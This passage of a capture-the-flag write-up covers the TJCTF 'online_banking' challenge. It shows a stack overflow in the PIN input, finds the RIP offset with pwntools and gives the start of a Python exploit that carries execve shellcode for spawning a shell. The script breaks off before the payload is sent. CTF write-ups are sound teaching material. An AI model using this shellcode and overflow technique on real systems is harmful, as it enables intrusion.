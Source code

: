~~~c
                cmd = 'q';
            }
        } else if(cmd == 'w') {
            if(verify_pin(pin)) {
                char deposit_s[16];
                printf("How much would you like to withdraw?\n");
                fgets(deposit_s, 16, stdin);
                balance -= atoi(deposit_s);
            } else {
                printf("Invalid PIN!\nFor security reasons, your account is now being locked.\n");
                cmd = 'q';
            }
        } else if(cmd != 'q') {
            printf("Unknown command!\n");
        }
        if(cmd == 'd' || cmd == 'w') {
            printf("Your current balance is %u\n",balance);
        }
    }
    printf("Have a nice day! Please come again soon.\n");
    return 0;
}
~~~

Looking carefully we see that problem is in:

    fgets(pin_check, NAME_SIZE+1, stdin);

We have obvious 28 byte overflow (`NAME_SIZE — PIN_SIZE`). Using pwntools we can check for offsets,

~~~text
    >>> cyclic(30,n=8)
    ......
    >>> cyclic_find('aaaaaaad',n=8)
    17
~~~

which gives us RIP after 17 bytes. Checking binary for security measures we see that NX and PIE are disabled.

    [*] '/root/ctf/tjctf/online_banking/problem'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX disabled
        PIE:      No PIE (0x400000)
        RWX:      Has RWX segments

Without PIE address of `name` is going to be constant, so it is a good place to put our shellcode. We are going to use shellcode from [shell-storm.org](http://shell-storm.org/shellcode/). Combining all this we get our solution :D.

~~~python
#!/usr/bin/env python
from pwn import *

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

if __name__ == "__main__":
	context.arch = 'amd64'
	context.os   = 'linux'
	context.terminal = ["terminator", "-e"]

	pattern = cyclic(30,n=8)
	print pattern
	#r = process('./problem')
~~~